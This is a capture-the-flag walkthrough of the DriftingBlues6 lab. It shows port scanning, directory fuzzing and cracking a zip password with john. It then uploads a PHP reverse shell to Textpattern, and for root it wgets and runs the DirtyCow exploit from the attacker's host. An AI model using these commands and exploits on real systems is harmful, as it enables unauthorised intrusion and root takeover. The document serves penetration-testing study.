 ## Initial NMAP scan:

```bash
┌──(parallels㉿V35HR4J)-[/tmp]
└─$ nmap 192.168.205.219 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-18 17:17 +0545
Nmap scan report for 192.168.205.219
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
80/tcp   open     http
1031/tcp filtered iad2

Nmap done: 1 IP address (1 host up) scanned in 17.83 seconds
```

There's some hint for us on `/robots.txt``:

```
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

```bash
┌──(parallels㉿V35HR4J)-[/tmp]
└─$ ffuf -u http://192.168.205.219/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -ic -e .zip

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.205.219/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .zip 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

index                   [Status: 200, Size: 750, Words: 44, Lines: 76]
                        [Status: 200, Size: 750, Words: 44, Lines: 76]
db                      [Status: 200, Size: 53656, Words: 196, Lines: 212]
robots                  [Status: 200, Size: 110, Words: 11, Lines: 6]
spammer                 [Status: 200, Size: 179, Words: 3, Lines: 2]
spammer.zip             [Status: 200, Size: 179, Words: 3, Lines: 2]
```

After downloading the spammer.zip file, it is password protected, we can use `fcrackzip` to bruteforce the password:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/DriftingBlues6]
└─$ zip2john spammer.zip 
ver 2.0 spammer.zip/creds.txt PKZIP Encr: cmplen=27, decmplen=15, crc=B003611D ts=ADCB cs=b003 type=0
spammer.zip/creds.txt:$pkzip$1*1*2*0*1b*f*b003611d*0*27*0*1b*b003*2d41804a5ea9a60b1769d045bfb94c71382b2e5febf63bda08a56c*$/pkzip$:creds.txt:spammer.zip::spammer.zip
                                                                                                                                                                                
┌──(parallels㉿V35HR4J)-[~/tjnull/DriftingBlues6]
└─$ zip2john spammer.zip>hash.txt
ver 2.0 spammer.zip/creds.txt PKZIP Encr: cmplen=27, decmplen=15, crc=B003611D ts=ADCB cs=b003 type=0
                                                                                                                                                                                
┌──(parallels㉿V35HR4J)-[~/tjnull/DriftingBlues6]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt       
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
myspace4         (spammer.zip/creds.txt)     
1g 0:00:00:00 DONE (2023-12-18 17:29) 100.0g/s 2457Kp/s 2457Kc/s 2457KC/s christal..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

We got the password myspace4, now we can unzip the file and get the creds.txt file:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/DriftingBlues6]
└─$ unzip spammer.zip 
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
 extracting: creds.txt 

┌──(parallels㉿V35HR4J)-[~/tjnull/DriftingBlues6]
└─$ cat creds.txt                         
mayer:lionheart
```

Now since we know the creds, we can try to login to the portal, after loggining in we can see that we could actually upload a file, we can upload a php reverse shell, and trigger it through http://192.168.205.219/textpattern/files/shell.php which gives us a shell as www-data.

## Privilege Escalation:

```bash
www-data@driftingblues:/var$ uname -a
uname -a
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
```
dirty.c
We can see that the kernel version is 3.2.0-4-amd64, we can search for any exploit for this kernel version, we can find this [article](https://www.exploit-db.com/exploits/40839) which explains the exploit vulnerable to this kernel version.

```bash
www-data@driftingblues:/tmp$ wget 192.168.45.230:1234/dirty.c
wget 192.168.45.230:1234/dirty.c
--2023-12-18 05:56:37--  http://192.168.45.230:1234/dirty.c
Connecting to 192.168.45.230:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3713 (3.6K) [text/x-csrc]
Saving to: `dirty.c'

100%[======================================>] 3,713       --.-K/s   in 0s      

2023-12-18 05:56:37 (952 MB/s) - `dirty.c' saved [3713/3713]

www-data@driftingblues:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@driftingblues:/tmp$ chmod +x dirty&&./dirty
chmod +x dirty&&./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: test123

Complete line:
firefart:fiKBbJoc.sTuE:0:0:pwned:/root:/bin/bash

www-data@driftingblues:/tmp$ su firefart
su firefart
Password: test123

firefart@driftingblues:/tmp# id&&cat /root/proof.txt
id&&cat /root/proof.txt
uid=0(firefart) gid=0(root) groups=0(root)
1c71ffc08c419a2f6a00525cb7d34e32
```